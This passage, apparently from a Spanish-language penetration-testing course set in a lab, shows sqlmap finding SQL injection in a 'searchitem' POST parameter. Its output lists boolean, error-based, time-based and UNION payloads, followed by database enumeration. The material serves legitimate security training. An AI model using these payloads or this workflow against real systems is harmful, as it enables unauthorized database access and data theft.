 A continuación, ejecutamos esto a través de SQLMAP de la siguiente manera:

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ sqlmap -r sqli.txt --dbms=mysql 

<SNIP>

[00:07:24] [INFO] (custom) POST parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=%' AND 6921=6921#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=%' AND GTID_SUBSET(CONCAT(0x716a787071,(SELECT (ELT(5964=5964,1))),0x716a7a7171),5964) AND 'lVzh%'='lVzh

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=%' AND (SELECT 1227 FROM (SELECT(SLEEP(5)))jrOp) AND 'ENPh%'='ENPh

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: searchitem=%' UNION ALL SELECT NULL,NULL,CONCAT(0x716a787071,0x78724f676c7967575469546e6b765775707470466457486b78436373696d57546b4f72704d47735a,0x716a7a7171),NULL#
---
[00:07:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[00:07:38] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/status.inlanefreight.local'

[*] ending @ 00:07:38 /2022-06-21/
```

A continuación, podemos enumerar las bases de datos disponibles y ver que el`status`la base de datos es particularmente interesante:

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ sqlmap -r sqli.txt --dbms=mysql --dbs

<SNIP>

---
[00:09:24] [INFO] testing MySQL
[00:09:24] [INFO] confirming MySQL
[00:09:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 8.0.0
[00:09:24] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
```